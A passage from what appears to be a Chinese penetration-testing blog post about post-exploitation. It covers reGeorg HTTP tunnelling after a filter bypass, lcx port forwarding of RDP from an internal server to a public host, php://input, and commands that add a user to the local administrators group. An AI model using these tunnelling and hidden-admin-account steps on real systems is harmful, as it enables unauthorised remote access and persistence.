 ```php
?>
```
&#8195;&#8195;运行reGeorgSocksProxy.py脚本，mstsc连接成功。这种方法只是对获取的数据做了一次base64加密，但却成功上传，猜测拦截并非针对函数本身，而是对接收到的数据。

### 代理
为什么要用代理？众所周知公网IP全球唯一，但是内网IP并不唯一，远控无非三种场景：
- 公网到公网，可以直接连接；
- 公网到内网，假如你有一台公网服务器A，你想3389一台内网服务器B，直接连接是不行的，但是可以通过端口转发的方式达到目的，常用工具比如lcx，在内网机器B执行`lcx -slave A的IP 51 192.168.0.6 3389`，表示将本机IP地址为192.168.0.6的3389端口转发到公网服务器A的51端口，然后在公网服务器执行`lcx -listen 51 3389`，表示监听51端口，该端口主要是接受被控制计算机3389端口转发过来的数据，然后可以在服务器A上使用127.0.0.1来远程登录服务器B。
- 内网到内网，reGeorg其实是一个正向的Web代理，把内网服务器的端口通过 http/https 隧道转发到本机，形成一个回路，Proxifier是一个端口转发工具，以此达到穿透内网的效果。

### php://input
&#8195;&#8195;`php://input`是个可以访问请求的原始数据的只读流，也就是可以读取没有处理过的POST数据，`$_POST` 和 `php://input` 的区别：
- 当 HTTP POST 请求的 Content-Type 是 application/x-www-form-urlencoded 或 multipart/form-data 时，会将变量以关联数组形式传入当前脚本。
- php://input 是个可以访问请求的原始数据的只读流。 enctype="multipart/form-data" 的时候php://input 是无效的。

这里也有个问题没想明白就是为什么前两种拼接方式会使`file_get_contents('php://input')`失效？

### 常用命令
```shell
tasklist
taskkill /pid id1 /pid id2 -t -f
net user test test /add
net localgroup administrators test /add
net user test /delete
arp -a
```

## 参考
[内网端口转发及穿透](https://blog.csdn.net/Fly_hps/article/details/80634250)
[代理转发工具汇总分析](https://www.cnblogs.com/shellr00t/p/5856361.html)

